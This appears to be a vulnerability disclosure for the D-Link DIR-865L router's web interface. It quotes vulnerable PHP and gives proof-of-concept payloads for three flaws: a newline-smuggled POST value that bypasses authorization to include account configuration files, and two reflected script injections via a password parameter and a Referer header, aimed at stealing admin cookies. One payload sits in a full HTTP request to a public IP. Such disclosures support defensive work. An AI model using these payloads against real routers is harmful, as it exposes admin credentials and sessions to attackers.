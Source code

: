###  Local File Include

getcfg.php

``` 
if(is_power_user() == 1)
	{
		/* cut_count() will return 0 when no or only one token. */
		$SERVICE_COUNT = cut_count($_POST["SERVICES"], ",");
		TRACE_debug("GETCFG: got ".$SERVICE_COUNT." service(s): ".$_POST["SERVICES"]);
		$SERVICE_INDEX = 0;
		while ($SERVICE_INDEX < $SERVICE_COUNT)
		{
			$GETCFG_SVC = cut($_POST["SERVICES"], $SERVICE_INDEX, ",");
			TRACE_debug("GETCFG: serivce[".$SERVICE_INDEX."] = ".$GETCFG_SVC);
			if ($GETCFG_SVC!="")
			{
				$file = "/htdocs/webinc/getcfg/".$GETCFG_SVC.".xml.php";
				/* GETCFG_SVC will be passed to the child process. */
				if (isfile($file)=="1") dophp("load", $file);
			}
			$SERVICE_INDEX++;
		}
	}
```

POC

``` 
SERVICES=DEVICE.ACCOUNT&aaa=%0aAUTHORIZED_GROUP=1
```



![image-20191031111027019](https://github.com/Cyc1eC/D-Link/blob/master/DIR-865L/image-20191031111027019.png)

We can arbitrarily include all files ending in .xml.php,suce as DEVICE.ACCOUNT.xml.php

### 2.XSS

#### （1）path: parentalcontrols/register.php

```
			var Response = "<? echo $Response; ?>";
			function Body() {}
			Body.prototype =
			{
				OnLoad: function()
				{
					if(Response == "Unauthorized")
					{
						document.getElementById("authorize").style.display = "block";
					}
					else if(Response == "InternetUnreachable")
					{
						document.getElementById("InternetUnreach").style.display = "block";
					}
					else if(Response == "Devicebinded")
					{
						document.getElementById("device_binded").style.display = "block";
					}									
				},
				LoginSubmit: function(password_type, overwrite_deviceid)
				{
					if(password_type === "new") var pwd = document.getElementById("loginpwd").value;
					else var pwd = "<? echo $_GET["password"];?>";
					self.location.href = "/parentalcontrols/register.php?username=" + "<? echo $ADMIN_name;?>" + "&password=" + pwd + "&overriteDeviceID=" + overwrite_deviceid;
				},
				window_close: function()
				{
					window.opener=null;   
					window.open("","_self");   
					window.close();
				}						
			};
			var BODY = new Body();	
```

* else var pwd = "<? echo $_GET["password"];?>"; We can construct the value of password arbitrarily
if we send data : </script><script>alear(document.cookie)</script><script> we can get the cookie of Admin

![image-20191031111539987](https://github.com/Cyc1eC/D-Link/blob/master/DIR-865L/image-20191031111539987.png)



#### 2.path: /htdocs/webinc/js/tools_fw_rlt.php

code:

```php
		$referer = $_SERVER["HTTP_REFERER"];
		......
		$title = i18n("Language Pack Upload Fail");
		$message = "'".i18n("The language pack image is invalid.")."', "."'<a href=\"".$referer."\">".i18n("Click here to return to the previous page.")."</a>'";
```

The $referer variable has more places to assign values, so there are more trigger positions.

POC

``` 
POST /tools_fw_rlt.php?PELOTA_ACTION=fwupdate HTTP/1.1
Host: 116.50.243.85
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:56.0) Gecko/20100101 Firefox/56.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 16
Referer: </script><script>alert(document.cookie)</script><script>
Cookie: uid=ScrWKA5Tlb
Connection: close
Upgrade-Insecure-Requests: 1

ACTION=langclear
```

![image-20191031205417181](https://github.com/Cyc1eC/D-Link/blob/master/DIR-865L/image-20191031205417181.png)

